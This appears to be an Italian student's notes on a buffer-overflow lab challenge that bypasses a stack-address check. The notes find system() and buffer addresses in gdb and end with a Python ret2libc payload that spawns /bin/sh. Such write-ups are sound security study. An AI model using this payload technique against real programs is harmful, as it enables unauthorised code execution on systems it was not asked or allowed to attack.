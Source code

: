 	- si legge un input da terminale e lo si salva in buffer
	- "builtin_return_address(0);": macro definita dal compilatore che fa il return dell'indirizzo dello stack frame corrente
	- Dopo controllo che l'indirizzo di ritorno sia nell'area dello stack
- A differenza della sfida precedente qui viene implementata una contromisura difensiva cioè controlla che l'indirizzo di ritorno non sia un valore dello stack cioè compreso in 0xbf000000 – 0xbffffff.
	- Se lo è lo identifica come buffer overflow e usciamo 
	- Per farlo utilizziamo la maschera 0xbf000000 che azzera tutti i bit tranne gli ultimi 2
- In conclusione non è possibile eseguire codice sullo stack
	- La libreria del C fornisce al programmatore almeno una funzione wrapper per ciascuna chiamata di sistema disponibile

### Indirizzo di System
- Per individuare l'indirizzo di system da gdb eseguire
    - p system
    - risultato:0xb7ecffb0
### Risoluzione
- breakpoint all'inizio
- Ricostruisco il layout dopo il prologo
- localizzo buffer e ret
- Continuo fino all'epilogo
- Ricostruisco il layout prima del ritorno 
#### Indirizzo di buffer
- Per individuarlo vado a mettere un brackpoint prima della gets dato che so che buffer viene passato come primo parametro e che quindi il sui indirizzo sarà nel registro eax
    - risultato: 0xb7f0186e 
    - risultato: 0xbffffc8c
    - \x6e\x18\xf0\xb7
#### Indirizzo di ret
- nel codice vediamo come ret sia uguale a -0xc($ebp) questo significa che l'indirizzo si trova in $ebp - 12
    - risultato: 0xbffffccc
#### Payload corretto
- Quello del prof fa riferimento ad indirizzi differenti, questo è quello aggiornato rispetto ai miei indirizzi
```python
#!/usr/bin/python

print '/bin//sh\x00' + 'a' * 71 + '\xb0\xff\xec\xb7' + '\x42\x42\x42\x42' + '\x8c\xfc\xff\xbf'

```


